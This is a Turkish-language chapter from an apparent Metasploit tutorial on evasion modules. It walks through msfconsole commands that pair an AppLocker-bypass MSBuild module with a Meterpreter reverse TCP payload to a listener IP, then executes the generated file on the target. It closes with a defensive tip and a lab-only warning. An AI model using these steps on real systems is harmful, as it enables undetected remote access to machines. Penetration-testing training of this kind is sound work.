

# Bölüm 9 - Evasion

> 📚 [İndeks](00_Metasploit_Framework_%C4%B0ndeks.md)

## 1. Evasion
Evasion modülleri, hedef sistemlerdeki güvenlik önlemleri (antivirüs yazılımları, IDS/IPS sistemleri vb.) tarafından tespit edilmeden exploit ve payloadların başarılı bir şekilde yürütülmesini sağlayan stratejileri uygular. Bu modüller, saldırıların fark edilmesini zorlaştıran çeşitli teknikler içerir.

## 2. Evasion Modüllerinin Kullanım Amacı
Evasion modülleri, exploitlerin hazırlanması ve çalıştırılması aşamasında kullanılır. Bir saldırgan, güvenlik önlemlerini atlatmak ve hedef sistemlere mümkün olan en az dikkati çekerek erişmek için bu modülleri kullanır.

## 3. Evasion Modüllerinin Kullanımı
Metasploit'te mevcut evasion modüllerini görmek için msfconsole'da şu komutu kullanabilirsiniz:

```text
msf6 > show evasion
```

Bu komut, kullanılabilir tüm evasion modüllerini listeler ve her birinin ne için kullanıldığına dair kısa bir açıklama sağlar.

Örneğin, Windows ortamlarında **AppLocker** gibi politika tabanlı uygulama kontrol sistemlerini veya antivirüs yazılımlarını atlatmak için aşağıdaki adımlar izlenebilir.

### 3.1 Evasion Modülünün Seçilmesi

```text
msf6 > use evasion/windows/applocker_evasion_msbuild
msf6 evasion(windows/applocker_evasion_msbuild) > 
```

### 3.2 Payloadın Seçilmesi

```text
msf6 evasion(windows/applocker_evasion_msbuild) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
PAYLOAD => windows/x64/meterpreter_reverse_tcp
```

### 3.3 Gerekli Ayarların Yapılması

```text
msf6 evasion(windows/applocker_evasion_msbuild) > set LHOST 172.20.5.144
LHOST => 172.20.5.144
msf6 evasion(windows/applocker_evasion_msbuild) > set LPORT 4444
LPORT => 4444
```

### 3.4 Evasion Modülünün Çalıştırılması

```text
msf6 evasion(windows/applocker_evasion_msbuild) > run

[+] msbuild.txt stored at /root/.msf4/local/msbuild.txt
[*] Copy msbuild.txt to the target
[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\MSBuild.exe msbuild.txt
```

Bu evasion modülü, MSBuild aracılığıyla AppLocker politikalarını atlayarak kötü amaçlı kodun çalıştırılmasını sağlayan bir payload oluşturur ve gönderir. Eğer hedef sistemde AppLocker politikaları aktifse ve MSBuild güvenilen bir uygulama olarak listelenmişse, bu teknik yüksek bir başarı şansına sahiptir.

> [!TIP]
> **Savunma tarafı:** `MSBuild.exe` imzalı bir Microsoft aracı olduğu için AppLocker varsayılan kurallarında güvenilir sayılabilir. Microsoft, ihtiyaç yoksa MSBuild gibi araçların uygulama kontrol politikalarıyla (AppLocker / WDAC) engellenmesini önerir.



> [!WARNING]
> Metasploit'i yalnızca izinli hedeflerde ve kendi lab ortamında kullan.

---
> 📚 [İndeks](00_Metasploit_Framework_%C4%B0ndeks.md) · ⬅️ [Bölüm 8](08_Nops.md) · ➡️ [Bölüm 10](10_Meterpreter.md)
